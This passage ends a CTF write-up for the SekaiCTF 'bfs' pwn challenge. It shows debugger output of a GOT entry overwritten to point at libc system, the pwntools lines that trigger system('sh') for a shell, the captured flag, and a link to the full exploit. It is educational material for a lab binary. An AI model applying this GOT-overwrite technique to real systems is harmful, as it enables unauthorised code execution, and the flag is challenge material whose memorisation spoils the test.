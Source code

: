 We only send 6 bytes of my 0x0102030405060708 garble, since one was already written and the other is going to become `0x1b` as 27 is pushed.

This fixes the issue, and voila!
```
pwndbg> x/10qwgx 0x407060
0x407060 <_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@got.plt>:     0x00007fa95764ccd6      0x0102030405061b08
0x407070 <_ZdlPvm@got.plt>:     0x00007fa957673d60      0x00007fa9579a68f0
0x407080 <__stack_chk_fail@got.plt>:    0x0000000000401100      0x00007fa957665420
0x407090 <exit@got.plt>:        0x0000000000401120      0x00007fa9579a8570
0x4070a0 <_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEC1Ev@got.plt>:   0x00007fa9579b70a0      0x0000000000401150
pwndbg> x/x 0x00007fa957673d60
0x7fa957673d60 <__libc_system>: 0x74ff8548fa1e0ff3
```

As always, now we just make the bfs algorithm attempt to find an unfindable value, popping everything off the queue and getting the chunks freed in the process. delete("sh") will be called, actually calling system("sh")!

```python
p.sendline("256 0")
p.sendline("0 69420")
p.interactive()
```

The exploit fails sometimes because of some specifics with bytes, repeats etc., but it's relatively reliable. With that, we can pop a shell and get the flag.

### Flag: SEKAI{what_do_you_mean_my_integers_have_to_be_checked?_i_never_needed_to_do_that_in_programming_competitions}

The author had a way less complicated solution than I did, but I still had loads of fun doing it, and learned quite a bit about c++ in the process! I hope this helps people to learn something too!

Full exploit here: [https://github.com/Day91/Writeups/blob/master/SekaiCTF/bfs.py](https://github.com/Day91/Writeups/blob/master/SekaiCTF/bfs.py)
